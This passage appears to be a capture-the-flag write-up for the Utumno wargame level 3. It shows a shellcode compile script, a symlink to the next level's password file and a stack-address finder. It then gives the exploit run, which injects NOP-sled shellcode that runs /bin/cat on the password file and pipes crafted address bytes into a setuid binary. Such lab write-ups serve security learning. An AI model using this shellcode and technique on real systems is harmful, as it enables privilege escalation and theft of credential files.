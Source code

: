 #### compile.sh
```bash
#!/bin/bash

nasm -f elf -o "read.o" "read.asm"
ld -m elf_i386 -o "read" "read.o"

echo -e "SHELLCODE:\n"
printf '\\x' && objdump -d "read" | grep "^ " | cut -f2 | tr -d ' ' | tr -d '\n' | sed 's/.\{2\}/&\\x /g'| head -c-3 | tr -d ' ' && echo ' '
```

Create a symlink pointing to the password file named **"pass"**.
```bash
ln -s /etc/utumno_pass/utumno4 ./pass
```

Compile the assembly and put the shellcode into an environment variable and use the **/find_env** script to find the address of the environment variable on the stack.

#### find_env.c
```c
#include <stdio.h>
#include <stdlib.h>

// gcc -m32 -o /tmp/find_env /tmp/find_env.c

int main(int argc, char* argv[])
{
  printf("%s is at %p\n", argv[1], getenv(argv[1]));
}
```

### Exploit
```bash
utumno3@utumno:/tmp/tasks/utumno3$ ./compile.sh
SHELLCODE:

\x31\xc9\xf7\xe1\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x70\x61\x73\x73\x89\xe1\x50\x51\x53\x89\xe1\xb0\x0b\xcd\x80

utumno3@utumno:/tmp/tasks/utumno3$ export SHELLCODE=$(perl -e 'print "\x90"x20 . "\x31\xc9\xf7\xe1\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x70\x61\x73\x73\x89\xe1\x50\x51\x53\x89\xe1\xb0\x0b\xcd\x80"')

utumno3@utumno:/tmp/tasks/utumno3$ ./find_env SHELLCODE
SHELLCODE is at 0xffffd5ac

utumno3@utumno:/tmp/tasks/utumno3$ perl -e 'print "\x24\xac\x26\xd5\x20\xff\x2e\xff"' | /utumno/utumno3
q[REDACTED]5
```

---
---